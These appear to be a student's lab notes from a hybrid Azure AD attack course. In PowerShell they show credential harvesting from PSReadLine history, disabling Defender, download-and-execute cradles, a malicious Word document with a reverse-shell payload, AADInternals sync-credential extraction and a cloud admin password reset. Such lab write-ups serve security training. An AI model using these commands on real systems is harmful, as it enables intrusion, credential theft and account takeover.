 - We can now use the credentials of the user we created above to access `bkpadconnect`.
```powershell
PS C:\Auditor> $password = ConvertTo-SecureString 'Stud72Password@123' -AsPlainText -Force
PS C:\Auditor> $creds = New-Object System.Management.Automation.PSCredential('student72', $Password)
PS C:\Auditor> $sess = New-PSSession -ComputerName 20.52.148.232 -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
PS C:\Auditor> Enter-PSSession $sess
[20.52.148.232]: PS C:\Users\student72\Documents> whoami;hostname
bkpadconnect\student72
bkpadconnect
```

- We will perform post-exploitation actions on the compromised machine.
```powershell
[20.52.148.232]: PS C:\Users\student72\Documents> dir C:\Users\


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        3/30/2021   8:10 AM                bkpadconnect

<snip>
```

- We can enumerate this local user to discover credentials.
```powershell
[20.52.148.232]: PS C:\Windows\Tasks> cat C:\Users\bkpadconnect\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
$passwd = ConvertTo-SecureString "CredsToManageCl0udSync!" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("defeng-adcnct\administrator", $passwd)
$adconnect = New-PSSession -ComputerName 172.16.1.21 -Credential $creds
Enter-PSSession -Session $adconnect
Restart-Service -Name WinRM
WinRM Quickconfig
Restart-Computer
Set-Item WSMan:\localhost\Client\TrustedHosts -Value '*'
```

###### From this point on, actions cannot be carried out in the lab by students. Everything is showcased by the instructors.
- We can use those credentials to connect to `adcnct` (the name stands for ADConnect).
```powershell
PS C:\Auditor> $password = ConvertTo-SecureString 'CredsToManageCl0udSync!' -AsPlainText -Force
PS C:\Auditor> $creds = New-Object System.Management.Automation.PSCredential('administrator', $password)
PS C:\Auditor> $adcnct = New-PSSession -ComputerName 172.16.1.21 -Credential $creds
PS C:\Auditor> Enter-PSSession $adcnct
```


[172.16.1.250]: PS C:\Users\Administrator\Documents> Set-MpPreference -DisableRealtimeMonitoring $true
[172.16.1.250]: PS C:\Users\Administrator\Documents> iex (New-Object Net.Webclient).downloadstring("http://172.16.150.72:82/Out-Word.ps1")
[172.16.1.250]: PS C:\Users\Administrator\Documents> Out-Word -Payload "powershell iex (New-Object Net.Webclient).downloadstring('http://172.16.150.72:82/Invoke-PowerShellTcp.ps1');Power -Reverse -IPAddress 172.16.150.72 -Port 4444" -OutputFile student72.doc
[172.16.1.250]: PS C:\Users\Administrator\Documents> exit
[172.16.1.21]: PS C:\Users\Administrator\Documents> Get-ADSyncConnector
[172.16.1.21]: PS C:\Users\Administrator\Documents> Import-Module C:\Users\Administrator\Documents\AADInternals\AADInternals.psd1
[172.16.1.21]: PS C:\Users\Administrator\Documents> Get-AADIntSyncCredentials
[172.16.1.21]: PS C:\Users\Administrator\Documents> $passwd = ConvertTo-SecureString 'password' -AsPlainText -Force
[172.16.1.21]: PS C:\Users\Administrator\Documents> $creds = New-Object System.Management.Automation.PSCredential ("Sync_DEFENG-ADCNCT_782bef6aa0a9@defcorpsecure.onmicrosoft.com", $passwd)
[172.16.1.21]: PS C:\Users\Administrator\Documents> Get-AADIntAccessTokenForAADGraph -Credentials $creds –SaveToCache
[172.16.1.21]: PS C:\Users\Administrator\Documents> Get-AADIntUser -UserPrincipalName onpremadmin@defcorpsecure.onmicrosoft.com | select ImmutableId
[172.16.1.21]: PS C:\Users\Administrator\Documents> Set-AADIntUserPassword -SourceAnchor "E2gG19HA4EaDe0+3LkcS5g==" -Password "SuperSecretpass#12321"